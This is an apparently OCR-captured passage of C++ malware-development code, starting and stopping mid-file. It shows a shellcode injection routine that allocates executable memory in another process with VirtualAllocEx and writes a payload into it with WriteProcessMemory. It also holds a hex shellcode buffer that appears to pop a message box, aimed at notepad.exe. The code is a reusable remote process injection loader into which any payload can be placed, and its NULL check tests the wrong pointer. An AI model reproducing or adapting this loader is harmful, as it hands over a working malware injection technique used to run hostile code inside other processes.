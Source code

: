 ```cpp

  return TRUE;


}


BOOL InjectShellcode(IN HANDLE* hProcess, IN PBYTE Shellcode, IN SIZE_T SizeofShellcode, OUT PVOID* ppAddress) {


  SIZE_T dwNumberofBbytesWritten;
  *ppAddress = VirtualAllocEx(*hProcess, NULL, SizeofShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  if (ppAddress == NULL) {
    printf("VirtualAlloc failed with error %x", GetLastError());
    return FALSE;
  }

  if (!WriteProcessMemory(*hProcess, *ppAddress, Shellcode, SizeofShellcode, &dwNumberofBbytesWritten) || dwNumberofBbytesWritten != SizeofShellcode) {

    printf("WriteProcessMemory failed with error %x", GetLastError());
    return FALSE;
  }

  return TRUE;

}



int main()
{

  unsigned char buf[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e"
    "\x4c\x8d\x85\x15\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff"
    "\xd5\x43\x52\x41\x46\x54\x49\x4e\x47\x20\x44\x49\x47\x49"
    "\x54\x41\x4c\x20\x43\x48\x41\x4f\x53\x00\x4d\x65\x73\x73"
    "\x61\x67\x65\x42\x6f\x78\x00";

  CHAR Pname[] = "notepad.exe";
  
  DWORD* dwProcessID = (DWORD*)malloc(sizeof(DWORD));
```